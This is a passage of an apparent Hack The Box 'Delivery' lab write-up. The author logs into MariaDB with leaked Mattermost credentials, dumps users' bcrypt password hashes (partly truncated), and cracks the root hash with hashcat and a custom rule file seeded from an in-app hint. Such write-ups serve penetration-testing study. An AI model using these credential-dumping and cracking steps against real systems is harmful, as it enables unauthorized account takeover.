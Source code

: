 Logged within mysql using mattermost leaked credentials and **extracted password hashes** for registered users:
```bash
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p
...
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.000 sec)
...
MariaDB [mattermost]> select username, Password from Users;
+----------------------------------+--------------------------------------------------------------+
| username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZ...................................... |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1...................................... |
| root                             | $2a$10$VM6EeymRxJ29r8W...................................... |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUc...................................... |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJ...................................... |
| maoutis                          | $2a$10$n5KAvICmMNkb.p2...................................... |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.000 sec)
```

Following the hint gave inside the Mattermost application
> Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

it was possible to **crack the root user password** using **hashcat custom rules**:

Used rules: [https://github.com/praetorian-inc/Hob0Rules/blob/master/d3adhob0.rule](https://github.com/praetorian-inc/Hob0Rules/blob/master/d3adhob0.rule)
```bash
┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ hashid '$2a$10$VM6EeymRxJ29r8.......................................'
Analyzing '$2a$10$VM6EeymRxJ29r8.......................................'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ hashid maildeliverer-admin.passwd
--File 'maildeliverer-admin.passwd'--
Analyzing '$2a$10$VM6EeymRxJ29r8.......................................'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
--End of file 'maildeliverer-admin.passwd'--

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ echo 'PleaseSubscribe!' > base_passwords

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ cat mattermost-hashes.passwd| grep root > root.passwd

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ hashcat root.passwd base_passwords -m3200 -r d3adhob0.rule --force --username --separator ":"
hashcat (v6.1.1) starting...
...
```